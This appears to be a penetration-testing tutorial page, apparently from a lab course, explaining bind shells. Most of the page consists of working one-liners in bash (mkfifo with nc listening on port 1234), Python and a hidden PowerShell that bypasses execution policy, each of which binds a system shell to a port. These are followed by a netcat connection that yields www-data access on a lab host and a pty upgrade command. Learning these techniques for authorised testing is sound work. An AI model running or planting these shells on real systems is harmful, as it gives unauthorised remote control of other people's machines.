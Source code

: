 
# Bind Shell

A `Bind Shell` is another type of `shell`. Unlike a `Reverse Shell` that connects back to us, a `Bind Shell` requires us to connect to the target's `listening port`.

Once we execute a `Bind Shell Command`, the remote host will start `listening` on a `port` and `bind` that host's `shell` (`Bash` or `PowerShell`) to that port. We then connect to that port with `netcat` and gain `control` of the `compromised host` through an interactive `shell` session.

The following are reliable commands we can use to start a bind shell:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

#### Netcat Connection

Once we execute the bind shell command, we should have a shell waiting for us on the specified port. We can now connect to it.

We can use `netcat` to connect to that port and get a connection to the shell:

```bash
OathBornX@htb[/htb]$ nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

# Upgrading TTY

Here’s the classic one-liner you use inside your `netcat shell` to upgrade into a full interactive `TTY`. It uses `Python` (or `Python3` depending on what’s available on the target):

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
